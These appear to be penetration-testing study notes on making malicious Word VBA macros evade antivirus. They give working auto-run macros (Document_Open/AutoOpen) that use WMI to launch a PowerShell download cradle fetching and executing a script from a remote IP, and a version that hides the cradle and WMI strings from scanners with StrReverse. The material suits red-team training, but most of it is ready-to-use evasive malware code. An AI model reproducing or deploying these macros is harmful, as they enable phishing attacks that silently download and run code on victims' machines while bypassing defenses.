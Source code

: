 ```VB
```

### Dechaining with WMI

2 main issues that cause the high detection rate: The use of the `Shell` method and the identifiable PowerShell download cradle.

When the PowerShell process is created directly from the VBA code through `Shell`, it becomes a child process of Microsoft Word. => Suspicious

Use `WMI` from VBA to create a PowerShell process instead of having it as a child process of Microsoft Word.

`Winmgmt` is the WMI service within the `SVCHOST` process running under the `LocalSystem` account.

The Winmgmt WMI service is created in a separate process as a child process of `Wmiprvse.exe`, i.e. de-chain the PowerShell process from Microsoft Word.

PowerShell is running as a `64-bit` process.

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
```

### Obfuscating VBA

Perform some obfuscation to hide the content of any text strings from the antivirus scanner.

1. The PowerShell download cradle
2. The WMI connection string, and
3. The WMI class name.

VBA contains a function called `StrReverse` that, given an input string, returns a string in which the character order is reversed.

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim strArg As String
    strArg = StrReverse("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

    GetObject(StrReverse(":stmgmniw")).Get(StrReverse("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```
